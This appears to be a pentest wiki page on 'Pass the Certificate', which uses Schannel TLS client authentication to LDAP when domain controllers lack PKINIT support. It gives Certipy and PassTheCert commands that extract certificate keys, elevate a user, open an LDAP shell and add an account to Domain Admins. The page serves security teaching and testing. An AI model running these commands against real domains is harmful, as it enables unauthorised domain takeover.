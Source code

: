 # Pass the Certificate

{% hint style="warning" %}
This technique extends the notion of [Pass the Certificate](../kerberos/pass-the-certificate.md), thus dubbed by [@\_nwodtuhs](https://twitter.com/\_nwodtuhs/) in his Twitter [thread on AD CS and PKINIT](https://twitter.com/\_nwodtuhs/status/1451510341041594377). Even if both techniques share the same name and the same concept, the authentication method is different.
{% endhint %}

## Theory

Sometimes, Domain Controllers do not support [PKINIT](../kerberos/pass-the-certificate.md). This can be because their certificates do not have the `Smart Card Logon` EKU. Most of the time, domain controllers return `KDC_ERR_PADATA_TYPE_NOSUPP` error when the EKU is missing. Fortunately, several protocols — including LDAP — support Schannel, thus authentication through TLS. As the term "schannel authentication" is derived from the [Schannel SSP (Security Service Provider)](https://learn.microsoft.com/en-us/windows-server/security/tls/tls-ssl-schannel-ssp-overview) which is the Microsoft SSL/TLS implementation in Windows, it is important to note that schannel authentication is a SSL/TLS client authentication.

{% hint style="success" %}
* Schannel authentication relies on TLS so it is, by design, not subject to channel binding, as the authentication is borne by TLS itself.
* Schannel is not subject to LDAP signing either as the `bind` is performed after a StartTLS command when used on the LDAP TCP port.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
Tools like [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) (python version) and [Certipy](https://github.com/ly4k/Certipy) can be used to authenticate with the certificate via Schannel against LDAP.

```bash
# If you use Certipy to retrieve certificates, you can extract key and cert from the pfx by using:
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key

# elevate a user (it assumes that the domain account for which the certificate was issued, holds privileges to elevate user)
passthecert.py -action modify_user -crt user.crt -key user.key -domain domain.local -dc-ip "10.0.0.1" -target user_sam -elevate

# spawn a LDAP shell
passthecert.py -action ldap-shell -crt user.crt -key user.key -domain domain.local -dc-ip "10.0.0.1"
certipy auth -pfx -dc-ip "10.0.0.1" -ldap-shell
```
{% endtab %}

{% tab title="Windows" %}
Pass the cert technique can be done with[PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) (C# version).

```bash
# Add simple_user to Domain Admins (it assumes that the domain account for which the certificate was issued, holds privileges to add user to this group)
.\PassTheCert.exe --server fqdn.domain.local --cert-path Z:\cert.pfx --add-account-to-group --target "CN=Domain Admins,CN=Users,DC=domain,DC=local" --account "CN=simple_user,CN=Users,DC=domain,DC=local"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html" %}

[Certified Pre-Owned (pdf)](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

{% embed url="https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d" %}
